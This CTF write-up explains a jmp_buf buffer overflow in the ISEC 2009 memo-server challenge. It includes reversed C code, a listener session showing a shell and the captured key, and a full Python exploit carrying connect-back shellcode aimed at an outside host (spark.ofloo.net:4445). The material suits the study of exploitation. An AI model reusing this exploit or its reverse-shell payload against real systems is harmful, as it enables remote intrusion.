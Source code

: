 ```yaml
---
title: 'ISEC 2009 CTF Prequal &#8211; Challenge 12'
author: rd
excerpt: |
  |
    This is the write up for ISEC 2009 CTF Prequal challenge 12 as promised. Have fun.
layout: post

shorturls:
  - 'a:4:{s:9:"permalink";s:70:"https://www.vnsecurity.net/2009/08/isec-2009-ctf-prequal-challenge-12/";s:7:"tinyurl";s:26:"http://tinyurl.com/ydbz2uw";s:4:"isgd";s:18:"http://is.gd/aOtaj";s:5:"bitly";s:20:"http://bit.ly/74ZGyl";}'
tweetbackscheck:
  - 1408358995
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
categories:
  - 'CTF - CLGT Crew'
---
```

## Summary

The provided [*isec*][1] binary is a memo server listening on port 8909. It has a remote buffer overflow bug in add memo function in which we can overwrite jmp_buf exception environment stored by setjmp(). Once *longjmp() *is called later in the program, we can control the EIP to execute our own code.

### Vulnerability

The bug is inside the function which is responsible for add memo command at **0x08048CE0**. Below is reverse C code of this function:

<pre class="brush: cpp; gutter: true; highlight: [0,29,37,38]; title: ; notranslate" title="">char memo_array[30][30];
char memoflag_array[30];
int lastmemo;
char buf4[4];

int add_memo(int fd)
{
    char buf128[128];
    int i;
    int idx;

    idx = lastmemo;
    memset(buf128, 0, 128);
    for ( i = 0; i &lt;= 14; ++i )
    {
        if ( i == 15 )
        {
            memcpy(buf128, "[!] Buffer Full!!n", 19);

            return send(fd, buf128, strlen(buf128), 0);
        }
        if ( !memoflag_array[i] )
        {
            idx = i;
            break;
        }
    }
    memoflag_array[idx] = 1;
    if ( !setjmp(exception_env) )
    {
        memcpy(buf128, "n[ Add Memo ]n", 15);
        send(fd, buf128, strlen(buf128), 0);
        memcpy(buf128, "Enter Message : ", 17);
        send(fd, buf128, strlen(buf128), 0);
        memset(buf128, 0, 128);
        recv(fd, buf128, 28, 0);
        strcpy(buf4, buf128);
        longjmp(exception_env, 1);
    }

    if ( strlen(buf128) &lt;= 18 )
    {
        memset(memo_array[idx], 0, 30);
        sprintf(memo_array[idx], "Memo : %s, size : %d", buf128, strlen(buf128));
        memcpy(buf128, "nSaved Memo!!nn", 16);
        send(fd, buf128, strlen(buf128), 0);
        result = lastmemo;
        if ( idx &gt;= lastmemo )
        {
             lastmemo = idx + 1;
             return lastmemo;
        }
    }
    else
    {
        memset(buf128, 0, 128u);
        memcpy(buf128, "size too big!!n", 16);
        send(fd, buf128, 128, 0);
    }
}
</pre>

It is easy to see a buffer overflow bug at line 37*** **strcpy(buf4, buf128)*. If the input is long enough (more than 24 bytes), we will be able to overwrite the *jmp\_buf exception\_env* (see below) which is being used to save exception stack by *setjmp()* at line 29. By overwriting the IP saved on this *jmp_buf* and pointing it back to our shellcode, once *longjmp()* is called later at line 38, our shellcode will be executed.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.bss:0804AD48 ; char buf[4]
.bss:0804AD48 buf4            db 4 dup(?)             ; DATA XREF: add_memo+312
.bss:0804AD4C                 public environ
.bss:0804AD4C environ         dd 5 dup(?)             ; DATA XREF: start+16
.bss:0804AD60 ; struct __jmp_buf_tag exception_env
.bss:0804AD60 exception_env   dd ?                    ; DATA XREF: add_memo+BD
.bss:0804AD60                                         ; 24 bytes away from buf4</pre>

### Exploit

It&#8217;s quite straight forward to exploit this bug. The only problem is that we need to find a good location to store our connect back shellcode as the server only get 28 bytes into buf128 from client. We could do this by splitting the shellcode into many small chunks across different memo records (each memo size is 30 bytes including some predefined texts so we have about 17 bytes for each shellcode chunk in each memo).

I was able to come up with a working exploit in about half an hour after started working on this challenge. Unfortunately, since there was no preparation for this CTF game, the only freesbsd shell I can get access to was a free shell on geekshell.org. It&#8217;s a 64 bits FreeBSD box (amd64), \`*gcc -m32*\` did not work and some weird behaviors happened due to 32-bit compatibility mode. It was kinda a pain. I spent couple of hours after finishing the exploit just to figure out why my exploit didn&#8217;t work, how weird behaviors happened, non-executable data/BSS and how to bypass it and so on.. instead of working on the challenge.

As the BSS segment was non-executable in this box, I searched around the binary and eventually found out a way to do multiple ret-into-code/libc chains (such as calling another recv() for the next stage) by pointing the EIP to 0&#215;08049454.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.text:08049454                 add     esp, 24h
.text:08049457                 pop     ebx
.text:08049458                 pop     ebp
.text:08049459                 retn
</pre>

This code allows me to have ESP pointing back into the beginning part of controllable buf128 on stack for the ret/..ret/.. chaining.

Fortunately, while I was doing this, a friend went online and gave me the ssh access to his FreeBSD 32 bit box. So I stopped doing it and tried my previous exploit on this 32bits box. It worked without any problem after a few small tweaks.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">xxx@spark.ofloo.net&gt; nc -l 4445
id
uid=1006(memo) gid=1006(memo) groups=1006(memo)
cat key
WOWHACKER_WOWCODE&OVERHEAD!?
</pre>

### Exploit code

<pre class="brush: python; gutter: true; title: ; notranslate" title="">#!/usr/bin/env python

import socket

class memo:
	def  __init__(self, host, port):
		self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.s.connect((host, port))
		ret = self.s.recv(1024)
		print ret

	def addmemo(self, memo):
		cmd = "1n"
		self.s.send(cmd)
		ret = self.s.recv(1024)
		print ret
		ret = self.s.recv(1024)
		print ret
		print repr(memo) + "n"
		self.s.send(memo)
		ret = self.s.recv(1024)
		print ret
		ret = self.s.recv(1024)
		print ret

	def close(self):
		self.s.close()

host = "221.143.48.88"
port = 8909

c = memo(host, port)
a = raw_input("Enter to continue");

# metasploit connect back shellcode with few modifications (jmp)
# spark.ofloo.net:4445
sc = "x68xd4x47x13x66x68xffx02x11x5dx89xe7x31xc0x50x6ax01" 
     "x6ax02x6ax10xb0x61xcdx80x57x50x50x6ax62x58xcdx80x50" 
     "x6ax5ax58xcdx80xffx4fxe8x79xe6x68x2fx2fx73x68x68x2f" 
     "x62x69x6ex89xe3x50x54x53x50xb0x3bxcdx80"

SPLITS = [15, 28, 42, 56, 65]
JMPFWD = "xEBx0D"
prev = 0
for next in SPLITS:
	tmp = sc[prev:next]
	tmp = tmp.rjust(15,'x90') + JMPFWD
	c.addmemo(tmp)
	prev = next

# jmpbuf overflow [24 bytes] [EIP]
# 1st memo starts at memo_array+7 = 0x804a9c7
s = "A"*24 + "xc7xa9x04x08"
c.addmemo(s)

c.close()
</pre>

 [1]: /vnsec/Members/rd/Files/misc/isec.bin